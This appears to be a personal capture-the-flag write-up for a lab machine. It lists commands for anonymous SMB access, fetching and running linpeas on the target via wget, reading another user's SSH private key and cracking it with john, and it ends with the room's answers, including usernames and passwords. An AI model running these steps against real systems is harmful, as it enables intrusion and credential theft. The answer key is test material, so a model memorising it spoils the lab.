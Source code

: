 ![[Pasted image 20241116124456.png]]

![[Pasted image 20241116125003.png]]

![[Pasted image 20241116125336.png]]


```
smbclient //10.10.114.251/Anonymous
login: root
password: 

dir 
staff.txt 
get staff.txt


```

```
cat staff.txt 
```

![[Pasted image 20241116130431.png]]

```
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
```

```
python3 -m http.server 8080

cd /dev/shm/
wget http://10.10.167.33:8080/linpeas.sh 
chmod +x linpeas.sh 
./linepeas .sh
```

```
cd /home/kay/.ssh/
cat id_rsa 
```

```
/opt/john/ssh2john.py > tojohn.txt
john tojohn.txt --wordlist=/usr/share/wordlists/rockyou.txt 
beeswax
```

```
ssh -i kay_id_rsa kay@10.10.114.251 
password: beeswax
```



#### Questions

What is the name of the hidden directory on the web server(enter name without /)?
```
development
```


What is the username?
```
jan
```

What is the password?
```
armando
```

What service do you use to access the server(answer in abbreviation in all caps)?
```
SSH
```

What is the name of the other user you found(all lower case)?
```
kay
```

If you have found another user, what can you do with this information?
```
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```